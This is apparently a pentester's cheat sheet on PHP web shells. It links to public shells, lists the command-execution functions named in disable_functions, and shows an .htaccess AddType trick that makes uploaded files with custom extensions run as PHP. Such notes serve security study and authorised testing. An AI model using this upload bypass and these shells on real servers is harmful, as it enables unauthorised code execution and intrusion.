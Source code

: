 ### :open_file_folder: Simple-PHP-Web-Shell

https://github.com/artyuum/Simple-PHP-Web-Shell/blob/master/index.php

### :open_file_folder: PHP HTTP Server

php -S <host ip>:<port>

### :open_file_folder: phpinfo

`disable_functions` = disabled commands

```
system
exec
shell_exec
passthru
popen
proc_open
pcntl_exec
```

### :open_file_folder: upload-bypasses

https://github.com/six2dez/pentest-book/blob/master/enumeration/web/upload-bypasses.md

We can attempt to upload the `.htaccess` file to configure the server to execute our custom file extensions as PHP scripts.

```shell
# The uploaded file may not be visible in the upload directory.
echo "AddType application/x-httpd-php <custom file extension>" > .htaccess
# example
echo "AddType application/x-httpd-php .abc" > .htaccess
```

### :open_file_folder: Single-file PHP shell

Combine bypass, such as phar

https://github.com/flozz/p0wny-shell/tree/master
